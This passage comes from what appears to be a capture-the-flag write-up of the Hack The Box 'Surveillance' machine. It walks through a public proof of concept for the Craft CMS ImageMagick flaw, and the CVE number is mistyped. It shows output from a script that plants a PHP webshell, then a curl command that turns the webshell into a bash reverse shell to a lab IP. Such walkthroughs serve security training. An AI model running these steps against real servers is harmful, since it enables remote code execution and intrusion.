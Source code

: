 Updating the `User-Agent` to write a PHP webshell instead of “test” is trivial.

### Running POC

Faelian has a really nice [POC for CVE-2203-41892](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py) that is held in a single Python script. It follows the same steps I did manually using ImageMagick.

In [lines 32-62](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py#L32-L62), it runs the POC to get `phpinfo` output, and gets the `tmp_dir` and `document_root` from it:

![image-20240418101456469](https://0xdf.gitlab.io/img/image-20240418101456469.png)

In [lines 64-81](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py#L64-L81) it uploads the MSL file to `/tmp` by crashing `imagick` on `/etc/passwd`:

![image-20240418101544477](https://0xdf.gitlab.io/img/image-20240418101544477.png)

The comment about uploading “shell.php” isn’t really accurate, as it’s really uploading the MSL file to make “shell.php”.

In [lines 84-93](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py#L84-L93) it uses `imagick` to to write (not so much move) the webshell:

![image-20240418101739697](https://0xdf.gitlab.io/img/image-20240418101739697.png)

The rest of the script is a loop to take in commands, pass them to the webshell, and print the result.

It works very nicely:

```
oxdf@hacky$ python craft-cms.py http://surveillance.htb
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web

[+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoami
[+] Remember to delete shell.php in /var/www/html/craft/web when you're done

[!] Enjoy your shell

> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell

Through any of these methods I’ll get a webshell. To upgrade that to a reverse shell, I’ll pass a simple [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) to the webshell:

```
oxdf@hacky$ curl http://surveillance.htb/0xdf.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' -x http://127.0.0.1:8080

```
